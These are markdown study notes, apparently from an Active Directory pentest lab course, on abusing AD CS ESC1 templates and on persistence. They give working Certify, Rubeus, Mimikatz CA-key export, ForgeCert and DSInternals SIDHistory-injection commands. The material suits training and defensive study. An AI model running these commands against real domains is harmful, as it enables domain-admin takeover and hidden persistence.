


# 07 — AD CS + Persistence

> [!NOTE]
> Active Directory Certificate Services (AD CS) provides Public Key Infrastructure (PKI) for authentication, encryption, and signatures across domain environments. Misconfigured certificate templates present high-impact domain escalation and persistent backdoors.

---

## Table of Contents

- [AD CS Architecture & Terminology](#ad-cs-architecture--terminology)
- [Vulnerable Certificate Template Criteria (ESC1 Checklist)](#vulnerable-certificate-template-criteria-esc1-checklist)
- [AD CS ESC1 Escalation Flow Diagram](#ad-cs-esc1-escalation-flow-diagram)
- [Certificate Enrollment & PKINIT Authentication (Rubeus)](#certificate-enrollment--pkinit-authentication-rubeus)
- [CA Private Key Extraction & ForgeCert Persistence](#ca-private-key-extraction--forgecert-persistence)
- [SIDHistory Persistence Injection (DSInternals)](#sidhistory-persistence-injection-dsinternals)

---

## AD CS Architecture & Terminology

- **PKI:** Public Key Infrastructure
- **CA:** Certificate Authority (Issues and validates certificates)
- **CSR:** Certificate Signing Request
- **EKU:** Extended Key Usage (Defines valid uses like `Client Authentication`, `Smart Card Logon`, `Server Authentication`)
- **SAN:** Subject Alternative Name (Allows specifying alternative principal identities like UPN/DNS)

> **Source:** handwritten p. 45.

---

## Vulnerable Certificate Template Criteria (ESC1 Checklist)

A certificate template is vulnerable to **ESC1** privilege escalation if all four conditions are met:

1. **Client Authentication Enabled:** EKU includes `Client Authentication`, `Smart Card Logon`, `PKINIT Client Authentication`, or `Any Purpose`.
2. **Subject Alternative Name (SAN) Control:** `CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT` is enabled (allows requester to specify an arbitrary UPN, e.g. `Administrator@domain.local`).
3. **Manager Approval Disabled:** No administrative approval required before issuance.
4. **Enrollment Permissions:** Low-privileged users or `Domain Users` hold `Enroll` permissions on the template.

```powershell
# Enumerate vulnerable certificate templates using PSPKIAudit or Certify
. C:\AD\Tools\PSPKIAudit.ps1
Invoke-PKIAudit

# Certify C# executable template audit
Certify.exe find /vulnerable
```
> **Source:** handwritten pp. 45–46.

---

## AD CS ESC1 Escalation Flow Diagram



---

## Certificate Enrollment & PKINIT Authentication (Rubeus)

### 1. Request Certificate via MMC / certreq
- Open `mmc.exe` → Add `Certificates` snap-in (Current User / Computer).
- Personal → Certificates → Request New Certificate.
- Select vulnerable template → Click Details → **Subject Name / SAN** → Add `User Principal Name (UPN)`: `Administrator@dcorp.moneycorp.local`.
- Export certificate with private key as `.pfx` file (`cert.pfx`).

### 2. Request Kerberos TGT using Certificate (PKINIT)
```cmd
Rubeus.exe asktgt /user:Administrator /enctype:aes256 /certificate:C:\AD\Tools\cert.pfx /password:P@ss123! /outfile:C:\AD\Tools\admin_tgt.kirbi /domain:dcorp.moneycorp.local /dc:dcorp-dc.dcorp.moneycorp.local /ptt
```

> **Source:** handwritten pp. 46–47.

---

## CA Private Key Extraction & ForgeCert Persistence

If an attacker holds administrative privileges on the CA server, they can export the CA private key and forge certificates off-line for any identity without interacting with the active CA service.

### 1. Export CA Private Key (Mimikatz)
```text
mimikatz # privilege::debug
mimikatz # crypto::certificates /systemstore:local_machine
mimikatz # crypto::capi
mimikatz # crypto::cng
mimikatz # crypto::certificates /systemstore:local_machine /export
```

### 2. Forge Certificate Offline (ForgeCert)
```cmd
ForgeCert.exe --CaCertPath C:\AD\Tools\ca.pfx --CaCertPassword P@ss123! --Subject "CN=Administrator" --SubjectAltName Administrator@dcorp.moneycorp.local --NewCertPath C:\AD\Tools\forged_admin.pfx --NewCertPassword P@ss123!
```

```cmd
# Authenticate forged certificate via Rubeus
Rubeus.exe asktgt /user:Administrator /certificate:C:\AD\Tools\forged_admin.pfx /password:P@ss123! /ptt
```

> [!WARNING]
> **⚠ Verify from original:** Re-check exact `ForgeCert.exe` parameter names from handwritten p. 50 / tool `--help`.

> **Source:** handwritten pp. 49–50.

---

## SIDHistory Persistence Injection (DSInternals)

`SIDHistory` is an Active Directory attribute intended to preserve access rights during domain migrations. Adding the `Domain Admins` group SID to a standard user's `SIDHistory` grants that user full Domain Admin privileges during Kerberos ticket evaluation.



### Execution Steps (Requires Offline NTDS.dit Access or DCSync/DA Access)

```powershell
# Step 1: Enumerate target user SID & Domain Admins Group SID
Get-DomainUser student1 -Properties sidhistory,objectsid
Get-DomainGroup 'Domain Admins' -Properties objectsid

# Step 2: Stop NTDS service on Domain Controller
Stop-Service -Name ntds -Force

# Step 3: Patch SIDHistory into NTDS database using DSInternals
Add-ADDBSidHistory -SamAccountName student1 -SidHistory 'S-1-5-21-3537233777-2717541362-1549646036-512' -DatabasePath C:\Windows\NTDS\ntds.dit

# Step 4: Restart NTDS service
Start-Service -Name ntds
```

> [!IMPORTANT]
> **⚠ Verify from original:** Confirm exact `DSInternals` cmdlet name (`Add-ADDBSidHistory`) for your installed module version on handwritten p. 51.

> **Source:** handwritten p. 51.
